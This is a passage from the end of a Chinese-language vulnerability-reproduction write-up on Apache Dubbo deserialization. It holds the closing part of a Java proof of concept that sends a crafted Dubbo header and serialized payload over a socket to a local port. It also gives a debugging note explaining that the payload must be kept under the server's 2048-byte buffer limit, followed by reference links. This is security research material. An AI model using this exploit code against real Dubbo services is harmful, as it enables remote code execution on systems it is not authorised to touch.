        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byteArrayOutputStream.write(header);

        // write payload into OS
        byteArrayOutputStream.write(baos.toByteArray());

        // get bytes
        byte[] bytes = byteArrayOutputStream.toByteArray();

        System.out.println(bytes.length);

        // send bytes
        Socket socket = new Socket( "127.0.0.1", 20880) ;
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```

> 踩坑记录：
>
> 上面的POC没触发成功，刚开始还以为是端口问题，一点反应都没有
>
> 服务端`ExchangeCodec#decode`设置断点
>
> 
>
> 根据数据流的header中`Data Length`+`Header Length`(固定为16bytes)算出总数据流长度2355bytes，但`readable`却只有2048，刚刚好2048!  回看`int readable = buffer.readableBytes();`
>
> 发现`buffer`有个`maxLength`属性等于2048
>
> payload超出buffer，需要缩短payload

# Reference

* [Apache Dubbo 反序列化漏洞复现笔记 | l3yx's blog](https://l3yx.github.io/2020/08/25/Apache-Dubbo-反序列化漏洞复现笔记/#Apache-Dubbo)
* [Java安全之Dubbo反序列化漏洞分析 - nice_0e3 - 博客园 (cnblogs.com)](https://www.cnblogs.com/nice0e3/p/15692979.html#漏洞简介-1)
* [Dubbo反序列化漏洞分析集合1 - 跳跳糖 (tttang.com)](https://tttang.com/archive/1730/)
* [Dubbo反序列化漏洞分析集合2 (qq.com)](https://mp.weixin.qq.com/s/WKeSRSEJ5hLAXzF60vau5g?ref=www.ctfiot.com)
* [Dubbo 协议详解 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/98562180)
